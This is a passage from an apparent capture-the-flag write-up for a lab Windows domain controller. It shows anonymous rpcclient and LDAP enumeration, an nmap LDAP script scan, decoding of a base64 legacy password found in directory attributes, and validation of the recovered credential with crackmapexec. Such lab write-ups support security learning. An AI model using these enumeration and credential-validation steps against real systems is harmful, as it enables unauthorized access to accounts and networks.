 ```
[-] User administrator doesn't have UF_DONT_REQUIRE_PREAUTH set
```

* Nothing lucrative out of this

### rpcclient

* Since we noticed that we can authenticate via '' let's try it

```
rpcclient \\\\10.129.54.147 -U '' -N
```

### Nmap ldap\* NSE Script

```
sudo nmap -n -sV --script "ldap* and not brute" 10.129.54.147
```

* This command contained very long output and did not seem to have anything of use in it.

### ldapsearch

* We will attempt to perform an LDAP query
* This seriously took forever to go through

```
ldapsearch -x -b "dc=cascade,dc=local" -H ldap://10.129.54.147 > results.txt

Ryan Thompson, Users, UK, cascade.local
sAMAccountName: r.thompson
cascadeLegacyPwd: clk0bjVldmE=

```

Username: <mark style="color:yellow;">r.thompson</mark>

cascadeLegacyPwd: clk0bjVldmE=&#x20;

<mark style="color:yellow;">rY4n5eva</mark>

* This looks BASE64 encoded. Let's decode it to see if we can see if it is a valid password

```
echo 'clk0bjVldmE=' | base64 -d
rY4n5eva
```

### Crackmapexec

```
crackmapexec smb 10.129.54.147 -u users -p passwords --continue-on-success
SMB         10.129.54.147   445    CASC-DC1         [+] cascade.local\r.thompson:rY4n5eva
```

* We confirm that <mark style="color:yellow;">r.thompson</mark> and <mark style="color:yellow;">rY4n5eva</mark> are valid creds
* Now, we have to enumerate the SMB share to uncover more information
